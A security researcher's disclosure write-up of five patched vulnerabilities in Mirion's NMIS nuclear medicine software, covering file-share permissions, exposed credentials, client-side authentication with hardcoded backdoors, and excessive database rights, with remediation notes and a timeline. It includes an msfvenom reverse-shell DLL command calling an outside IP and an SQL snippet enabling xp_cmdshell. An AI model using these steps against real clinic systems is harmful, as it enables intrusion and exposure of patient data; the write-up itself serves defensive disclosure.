

Title: Vulnerabilities in Mirion's Nuclear Medicine Information System
Date: 2025-12-02
Category: Cybersecurity

NMIS (nuclear medicine information system) is a program for tracking inventory, doses, and patient information within a nuclear medicine clinic. It was originally developed in [BASIC by Pinestar Technology Inc. in 1985](https://web.archive.org/web/20000526114425/http://www.pinestar.com/nmisdos70.htm). In 1999, [NMIS for Windows 1.0 was released](https://web.archive.org/web/20001006175149/http://www.pinestar.com/nmiswin10.htm) - it's this version that the current modern version can trace its origins to. Today, it's owned by [Mirion](https://www.mirion.com/news/mirion-acquires-ec%C2%B2-software-solutions-expanding-nuclear-medicine-molecular-imaging-portfolio). Software with a history as long as this will have warts - design choices that were made a decade ago, security practices that are no longer sufficient, etc. I uncovered a series of five low-complexity vulnerabilities in NMIS, which this article will discuss. Mirion was extremely responsive and attentive during the disclosure process, even though I caught them a few months before officially launching their coordinated vulnerability disclosure program (sorry 🙁). Overall, I was impressed with the competence and speed with which Mirion responded to the issues. At the time of writing, Mirion has issued patches for all the issues discussed in this article - contact technical support at [support@ec2software.com](mailto:support@ec2software.com) if you need assistance remediating these flaws. All fixes are included in version 23 of NMIS.

# NMIS's Deployment Architecture

NMIS uses a two-tier architecture: the client directly connects to the database with no application layer in the middle. This makes security challenging, as the set of permissible database operations must be tightly limited; essentially, all business logic needs to be written in stored procedures. It's a pattern I see in line-of-business software often enough that I plan to write a separate article detailing the challenges/weaknesses associated with it. The desktop client itself is distributed on a file share created by the NMIS installer. This fact is important - several flaws discovered can only be considered software vulnerabilities because the installation process mandates specific configurations (otherwise they'd be configuration flaws/pentest findings). Depending on customer configuration, the SQL database for NMIS is either installed within this file share, or housed on a remote customer-provided server. Lastly, there is a service running on the application server (`NMService.exe`) that is responsible for HL7 interfaces, scheduled jobs, maintenance, etc.



The NMIS installer grants read/write/modify permissions on the file share to the well-known SID `S-1-5-11` (a.k.a. authenticated users). This leads directly to the first two vulnerabilities.

# CVE-2025-64642: Remote Code Execution via Hijacked Execution Flow

The NMIS file share contains the executables for the desktop application, the background service (`NMService.exe`), and the Microsoft SQL Server instance (if the client chose the "internal" database option - otherwise the SQL server is somewhere else as dictated by the client). By abusing write permissions on the share, an attacker can either replace the executables with a trojanized version, or insert a DLL into the directory that will be loaded when one of the executables starts. This would allow the attacker to gain code execution on the server, or any of the clients (depending on which executable was targeted).

## An Example: Achieving Server-side RCE

`NMService.exe` runs as a service using the `LocalSystem` account on the NMIS server. We can't simply replace the binary - it'll be locked while the service is running. Therefore, the best approach is to coerce the application into loading a malicious DLL (ATT&CK technique [T1574-001](https://attack.mitre.org/techniques/T1574/001/)). Since it's a .NET CLR binary, we can check the referenced DLLs using dnSpy. The best candidate is `cfgR.dll` - it's not a .NET DLL, so signature checking won't be enforced. Using `msfvenom` we can generate a reverse shell DLL:

```
$ msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=12.185.56.4 \
  LPORT=4444 \
  -f dll > cfgR.dll
```

After replacing the DLL, the next time the server restarts, `NMService.exe` will load `cfgR.dll`, which will trigger the reverse shell. Since the malicious DLL doesn't contain any of the functions exported by the original, the service will not function correctly. This is likely to be noticed rather quickly - a more skilled attacker would either modify the original DLL or introduce a proxy DLL to replicate the functionality of the original. This is left as an exercise for the reader.

## Remediation

When presented to Mirion, two reasons were given to explain the write permissions granted to the share:

1. To enable centralized collection of logs.
2. To enable client organizations with limited IT staff to more easily perform self-service upgrades.

While reducing the workload for small (or non-existent) IT teams is admirable, it should not come at the expense of security. Better staffed IT departments should have the option to deploy the software in a more secure fashion[^1]. Regardless, the remediation is straightforward: write permissions were limited to only the locations where necessary under standard operations. This, however, still leaves many locations with global read permissions. This exposes an additional vulnerability documented as CVE-2025-64298.

# CVE-2025-64298: Sensitive Information Disclosure

With the entire application presented on a world-readable file share, several sensitive files are exposed:

1. The `Backup` directory contains encrypted zip backups of the main database. The encryption key applied to these backups is derived from a number of factors, including the customer number, fixed values, the date, etc.
2. If an internal database is used, the data storage files (`.mdf`) for the application database and the master database are exposed. An attacker who steals these would have all the PII/PHI within the application, as well as hashes for all NMIS/SQL users, which could be cracked offline and used to further compromise systems.
3. Data source name (`.dsn`) files such as `nmdb.dsn`, `nmdbssu.dsn`, `nmdbfcd.dsn`, and `hl7.dsn`. These configuration files instruct the application on where to locate the application database. Crucially, they contain the username/password[^2] for connecting to the database. Although the password is protected with triple-DES, the key/IV is static and hardcoded within the binary.

## Remediation

Due disaster recovery procedures being highly customer-specific, the `Backup` directory remains where it is - however, customers have been advised to implement backup procedures that either 1) directly backup to a secure location, or 2) subsequently relocate backups to a more secure location. For installations with the internal database configuration, the relevant directories were relocated outside of the share root. However, aspects of this vulnerability, such as the exposed credentials in the `.dsn` files, have been addressed by introducing a new Active Directory based authentication architecture and a new custom password option - details of this are in the next remediation section.

# CVE-2025-61940/64778: Client-Side Authentication Flaws

Since a single SQL user is used to authenticate all clients to the database server, authentication can be trivially bypassed by connecting to the database server with a generic SQL client. Application user authentication is performed entirely client-side. Bypassing authentication allows a whole range of malicious actions, including, but not limited to:

1. Adding new users, removing users, changing user passwords/privileges, or stealing the hashes of all users[^3].
2. Removing audit log entries, or modifying audit logs to implicate another user in a malicious activity.
3. Performing changes to the records of any patient, without corresponding audit log entries.
4. Reschedule appointments, double book appointments, or silently delete appointments.

NMIS users are solely identified by their password. No password dialogs include a username field. Two users cannot have the same password, and NMIS will reject password changes that result in conflicting passwords.


Lastly, most authentication dialogs contain a branch checking passwords against one of two of hardcoded backdoor passwords (six and seventeen characters, each containing all four character classes). These passwords were designed to facilitate access for remote support technicians. Backdoor passwords like these are a bad idea for a number of reasons:
- They are static for all customers. If a support technician were to enter one of these passwords on a compromised client workstation (i.e. a keylogger is installed), its knowledge could be used against other customers.
- There is no mechanism to rotate them without delivering a software update. Every time an employee leaves Mirion, they take knowledge of these passwords with them.
- They are present, plain text, within the source code. Utilities such as `strings.exe` could be used to locate them, though in practice, it is much more effective to find these passwords via binary reverse engineering.

## Remediation

Version 23 of NMIS can use the current user's Windows credentials to authenticate to the database, in addition to the authentication within the application. This removes the need for storing credentials in the application file share (see CVE-2025-64298, `.dsn` files). Dialog boxes no longer accept hardcoded passwords. In "technician-only" tools, the hardcoded password was replaced with a rotating password derived from a non-public, per customer secret (TOTP).

# CVE-2025-62575: Excessive Database User Permissions

If a malicious actor has uncovered the database credentials, there's a chance they'll be able to escalate to remote code execution. In internal database configurations, the NMIS installer grants the database user the `sysadmin` role. Once a malicious actor has a database user with this role, it's trivial for them to enable the `xp_cmdshell` extended stored procedure and run commands.

```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
xp_cmdshell 'calc.exe'
```

By default, SQL Server runs as a service account with low privileges. A malicious actor would need to locate a privilege escalation vulnerability to completely compromise the machine. If NMIS is installed with an external database, the credentials must be provisioned by the DBA. In these cases, it's likely that the `sysadmin` role is not assigned to the database user - but not impossible.

## Remediation

Code paths that required the `sysadmin` role were removed. The installer was altered to instead grant `db_owner` permissions within the NMIS database.

# Conclusion

Mirion's security team is competent and responsive. They are aware that they have inherited significant technical debt in the NMIS product. At all times through the process, they maintained constant and clear communication. I'd be happy working with them again (but I hope that I don't have to, of course). Vendors that take product security seriously are few and far between. Almost all vendors will proclaim the importance of security - few will do more than pay lip service to it.

May 28th, 2025
: Vulnerabilities reported to Mirion

June 2nd, 2025
: Mirion acknowledges report and confirms partial validation of vulnerabilities. Mirion additionally requests confirmation of testing impact (e.g. no breach of PII/PHI occurred).

June 5th, 2025
: Mirion confirms validation of all vulnerabilities.

June 20th, 2025
: First meeting to discuss remediation plan and proposed fixes.

August 22nd, 2025
: Follow-up meeting to discuss development progress and plans for release/disclosure. Mirion requests additional time to allow for adequate software testing, release engineering, and customer communication plan.

August 26th, 2025
: Initial 90 days pass

October 20th, 2025
: All work to fix vulnerabilities is complete - December 2nd targetted for disclosure and software release

October 27th, 2025
: Go/no-go meeting at Mirion

December 2nd, 2025
: Public disclosure

Sample exploit code will be made available at a later date, after sufficient time has been given for customers to remediate the issue.

[^1]: Of course, many clients will likely still choose to deploy NMIS with the share world-writable. The reality is, security always comes with some kind of usability tradeoff. Perhaps the ability to self-service upgrade (for these hypothetical clients) is worth the security risks.

[^2]: In some deployments, the password will be absent. When this is the case, the application uses a default, hardcoded password to authenticate to the database. This password is one of the hardcoded passwords discussed in the article.

[^3]: NMIS stores passwords salted and SHA-1 hashed. There appears to be a code path enabling migration to a new hash algorithm (SHA-256).
